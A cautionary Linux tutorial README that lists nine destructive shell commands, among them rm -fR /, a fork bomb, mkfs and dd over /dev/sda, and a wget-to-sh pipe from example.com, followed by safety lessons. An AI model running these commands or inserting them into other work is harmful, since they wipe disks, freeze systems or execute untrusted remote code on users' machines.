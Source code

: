 :bomb: Suicide Linux
=====================

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

Some of these commands need administration rights (e.g. sudo ...) to be executed, some Linux distributions enforce specific protection mechanisms. So it is not so simple to destroy your Linux machine, but pay attention in any case. 

## :warning: Warning!!
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


#### :one: Wipeout!

`rm -fR /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### :two: Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


#### :three: Tabula rasa

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### :four: Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### :five: Collecting Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### :six: Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### :seven: Danger from the Outside

`wget http://example.com/something -O – | sh –`


#### :eight: No More Busy

`find / -name busybox -exec rm -f {} \;`

#### :nine: Kernel, Don't Panic

`cat /dev/port`

The simplest way to freeze your system.


## :pencil: Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content
* there should be a reason for requesting your administrator password


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)

